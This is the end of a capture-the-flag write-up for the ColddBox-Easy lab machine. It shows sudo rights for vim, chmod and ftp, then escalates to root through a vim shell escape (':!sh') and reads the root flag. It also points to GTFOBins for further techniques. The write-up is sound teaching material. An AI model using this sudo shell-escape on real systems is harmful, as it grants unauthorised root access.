El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
*****@ColddBox-Easy:~$
````

So let's try!

````commandline
sudo /usr/bin/vim
````

Yes, `vim` runs and there we go!

````commandline
:!sh
# cat /root/root.txt
wq**********YWRlcywgbcOhcXVpbmEgY29t**********E=
#
````

We have other possibilities, you can read more on [GTFOBins](https://gtfobins.github.io/) and try them out.

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
